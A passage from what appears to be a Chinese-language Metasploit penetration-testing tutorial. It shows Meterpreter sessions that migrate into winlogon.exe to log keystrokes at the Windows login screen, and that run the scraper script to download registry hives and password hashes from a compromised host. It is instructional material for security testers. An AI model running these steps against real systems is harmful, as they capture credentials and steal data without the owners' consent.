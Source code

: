 ```

您会发现`winlogon.exe`作为一个带有进程 ID 的进程在运行。让我们假设`winlogon.exe`的**进程 ID（PID）**为`1180`。现在让我们迁移到这个 PID 并再次检查我们的活动桌面：

```
meterpreter > migrate 1180
[*] Migrating to 1180...
[*] Migration completed successfully.
meterpreter > getdesktop
Session 0\WinSta0\Winlogon 
```

您可以看到我们的活动桌面已更改为`WinSta0\Winlogon`。现在我们可以运行`keyscan_start`命令来开始嗅探 Windows 登录屏幕上的按键记录。

同样，我们可以通过迁移到运行在默认桌面上的任何进程来返回到默认桌面。考虑使用 PID `884`的`explorer.exe`：

```
meterpreter > migrate 884
[*] Migrating to 884...
[*] Migration completed successfully.
meterpreter > getdesktop
Session 0\WinSta0\Default 
```

您可能已经注意到了迁移到不同进程和桌面环境以嗅探按键记录的重要性。通常，人们在直接运行`keyscan`而不查看当前活动桌面时得不到任何结果。这是因为他们渗透的进程可能属于不同的会话或站。因此，在使用按键记录嗅探时，请牢记桌面的概念。

# 使用刮削器 meterpreter 脚本

到目前为止，我们已经了解了几个 meterpreter 命令。在这里，我们将看一下一个重要的 meterpreter 脚本，它可以帮助我们更深入地探索目标。下一章将广泛涵盖 meterpreter 脚本，因此在这里我们将专注于使用脚本。在渗透测试期间，您可能需要大量时间来挖掘目标的信息。因此，对于渗透测试人员来说，拥有有用信息的本地备份可以真正方便，即使目标已经关闭，他们仍然有信息可以使用。它还使与其他测试人员共享信息变得容易。刮削器为我们完成了这项任务。

## 准备工作

使用刮削器 meterpreter 脚本可以挖掘有关受损目标的大量信息，例如注册表信息、密码哈希和网络信息，并将其存储在测试人员的本地机器上。

为了在目标上使用 meterpreter 执行 Ruby 脚本，我们可以使用`run`命令。执行`run scraper -h`命令将列出我们可以与脚本一起传递的各种可用参数。让我们继续分析如何可以在本地下载信息。

## 如何做到这一点...

脚本在执行后会自动完成所有操作。它在`/root/.msf4/logs/scripts/scraper`下创建一个目录，其中保存了所有文件。您可能会在脚本执行过程中注意到错误，这可能是因为某个命令在目标上执行失败（命令行输出已经被缩短以适应）：

```
meterpreter > run scraper
[*] New session on 192.168.56.1:4232...
[*] Gathering basic system information...
[*] Error dumping hashes: Rex::Post::Meterpreter::RequestError priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
[*] Obtaining the entire registry...
[*] Exporting HKCU
[*] Downloading HKCU (C:\Users\DARKLORD\AppData\Local\Temp\UKWKdpIb.reg) 
```

脚本会自动下载并保存信息到目标文件夹。让我们看一下源代码，分析是否可以根据我们的需求进行一些更改。

## 它是如何工作的...

`scraper.rb`的源代码位于`/pentest/exploits/framework3/scripts/meterpreter`下。

Ruby 编程经验可以帮助您编辑脚本以添加您自己的功能。我们可以通过编辑以下行来更改下载位置：

```
